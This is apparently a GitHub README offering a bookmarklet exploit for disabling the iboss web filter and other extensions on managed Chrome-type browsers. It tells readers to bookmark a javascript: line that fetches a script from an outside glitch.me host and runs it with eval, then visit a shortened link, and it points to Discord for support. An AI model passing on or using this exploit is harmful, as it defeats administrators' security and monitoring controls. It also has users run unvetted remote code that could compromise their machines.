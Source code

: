 ## Disclaimer: this only works for iboss, if you want one for securely dm me. Also you need bookmarks enabled. Works on v108 to v111 (tested). ##

Step 1. Bookmark this code: 
javascript:opener.fetch("https://uboss.glitch.me/cod.js").then(data=>{data.text().then(e=>{eval(e)})})


Step 2. Go to  https://tinyurl.com/byeswamp.

Step 3. Click the blue link there.

Now, click on the bookmark. It should close a tab and open another tab. You should be on a tab that says "uboss" on it.
Now you can disable iboss, and other extensions. 

Made with help from Aka, but nice, Bypassi, 3kh0, and Spacesaver2000
Join the Blue Hat Crew (dsc.gg/blue-hat-crew or https://discord.gg/GdzCn3hT6N) or dm Cubing_Hay#3705 if it doesn't work!
